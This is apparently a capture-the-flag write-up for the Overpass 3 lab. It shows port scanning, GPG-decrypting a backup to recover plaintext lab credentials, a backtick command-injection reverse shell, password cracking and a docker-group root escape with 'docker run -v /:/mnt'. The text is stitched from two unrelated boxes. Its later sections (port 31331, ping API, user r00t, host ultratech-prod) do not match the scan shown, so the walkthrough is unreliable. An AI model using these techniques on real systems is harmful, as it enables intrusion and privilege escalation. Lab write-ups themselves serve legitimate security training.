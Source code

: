 # Introduction

we first add a domain in /etc/hosts so we don't need to remember the IP
```bash
10.10.xx.xx overpass3.thm
```

# Enumeration

we do a nmap with some options :\
\
-T4 is for have more threads to accelerate the scan\
-p- is to scan all the ports\
-sV is to scan the version\
\
we run the scan as sudo so it's doing a SYN scan and not a full TCP connection so it's faster

```bash
sudo nmap -T4 -p- -sV overpass3.thm
```

we got these open ports
```bash
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
Service Info: OS: Unix
```

# FTP (port 21)
we'll try to connect to the FTP server with anonymous account
```bash
$ ftp overpass3.thm                                                                                    
Connected to overpass3.thm.
220 (vsFTPd 3.0.3)
Name (overpass3.thm:kali): anonymous
331 Please specify the password.
Password: 
530 Login incorrect.
```

it's not working, let's move to next

# HTTP (port 31331)
On the homepage, we learn there is 4 employees
```bash
Paradox - Our lead web designer, Paradox can help you create your dream website from the ground up\
Elf - Overpass' newest intern, Elf. Elf helps maintain the webservers day to day to keep your site running smoothly and quickly.\
MuirlandOracle - HTTPS and networking specialist. Muir's many years of experience and enthusiasm for networking keeps Overpass running, and your sites, online all of the time.\
NinjaJc01 - James started Overpass, and keeps the business side running. If you have pricing questions or want to discuss how Overpass can help your business, reach out to him!\
```
we found /backups/ url with a backup.zip file
in this backup file, there is a gpg file and a key file (used to decrypt the gpg
we decrypt with
```bash
gpg --import priv.key
gpg -d CustomerDetails.gpg 
```

<img width="702" alt="image" src="https://github.com/MaTe0r/tryhackme.com/assets/94843357/c9b6c294-9c53-4fca-b7f0-f66aed812f0b">

paradox:ShibesAreGreat123\
0day:OllieIsTheBestDog\
muirlandoracle:A11D0gsAreAw3s0me

if we visit the /utech_sitemap.txt
```bash
/
/index.html
/what.html
/partners.html
```

we exploit the ping API with using the ``` ` ``` char that is interpreted as bash and not filtered\
we do a reverse shell

we found a file 
we crack the password of r00t that is : n100906

finally we found that r00t user is in docker group so we can privesc
```sh
r00t@ultratech-prod:~$ groups
r00t docker
r00t@ultratech-prod:~$ docker images
REPOSITORY          TAG                 IMAGE ID            CREATED             SIZE
bash                latest              495d6437fc1e        4 years ago         15.8MB
```

and we are finally root on docker, we can access filesystem by browsing to /mnt
```bash
r00t@ultratech-prod:~$ docker run -v /:/mnt -it bash
bash-5.0#
```
